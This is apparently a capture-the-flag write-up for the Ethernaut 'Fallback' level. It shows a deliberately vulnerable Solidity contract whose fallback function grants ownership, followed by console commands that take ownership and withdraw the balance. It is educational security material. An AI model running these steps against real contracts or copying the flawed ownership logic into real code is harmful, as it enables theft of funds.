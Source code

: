 # Fallback

You will beat this level if:

- you claim ownership of the contract
- you reduce its balance to 0

```solidity
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract Fallback is Ownable {

  mapping(address => uint) public contributions;

  function Fallback() public {
    contributions[msg.sender] = 1000 * (1 ether);
  }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(this.balance);
  }

  function() payable public {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## Solution

1. Noticed that the fallback function has the ability to change the owner
2. Viewed owner contributions with `await contract.contributions(await contract.owner())`
3. Made a minor contribution with `await contract.contribute({ value: 1 })`
4. Triggered the fallback function (and took ownership) with `await contract.send(1e17)`
5. Drained the contract with `await contract.withdraw()`
